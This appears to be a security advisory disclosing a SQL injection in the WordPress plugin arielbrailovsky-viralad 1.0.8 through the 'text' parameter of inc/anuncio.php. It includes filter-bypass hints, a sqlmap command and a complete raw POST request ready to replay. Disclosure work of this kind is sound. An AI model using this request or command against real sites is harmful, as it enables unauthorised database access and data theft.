



### The data insertion interface of the wordpress plugin arielbrailovsky-viralad has a sql injection vulnerability.

**Official website**: https://wordpress.org/plugins/arielbrailovsky-viralad/

**Version**：1.0.8

**Route**：/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php

**API function**: insert records

**Injection parameters**: text

**Request method**：POST

**Complete vulnerability trigger related interfaces and parameters**：[/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php]、[id=&text=123&url=http%3A%2F%2F123&active=0&priority=5&ffamily=Arial&fsize=11&fcolor=%230f0f0f&bgcolor=%23f0f0f0&bdcolor=%23555555&talign=left&fitalic=1&funderline=0&fbold=0&nocache=0.43691213689929764&security=ep15x3ftubo8dsycv7r4]

#### 1.Vulnerability analysis

In the anuncio.php file, when the request method is post and the request parameter action is empty, the incoming id, text and other parameters will be directly obtained and processed by the limpia function. If the database does not contain the record, it will be directly spliced into the insert sql statement to perform the record update operation.



However, the limpia function only performs simple keyword filtering, which can be bypassed by attackers (such as uppercase and lowercase, keyword replacement, blind injection, etc.).



Therefore, attackers can easily construct malicious sql injection payloads for exploitation.

#### 2.Vulnerability verification and exploitation

You can use sqlmap to verify the vulnerability：python sqlmap.py -r 1.txt --batch --dbms=mysql

The specific injection data packets are as follows (need to replace nocache, security in the URL and cookies in the request header after logging in)

```
POST /wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php HTTP/1.1
Host: wp3:82
Content-Length: 230
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://wp3:82
Referer: http://wp3:82/wp-admin/options-general.php?page
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wordpress_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C6a60c9d06464a51a9060e3fdf0020e0b; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C0abf1d7f8bfba5dca9d1f96d15294f9d; wp-settings-1=m6%3Do%26m9%3Do; wp-settings-time-1=1740904532; PHPSESSID=irmjinoeft5778hb5e97i155j6
Connection: close

id=&text=123&url=http%3A%2F%2F123&active=0&priority=5&ffamily=Arial&fsize=11&fcolor=%230f0f0f&bgcolor=%23f0f0f0&bdcolor=%23555555&talign=left&fitalic=1&funderline=0&fbold=0&nocache=0.43691213689929764&security=ep15x3ftubo8dsycv7r4
```



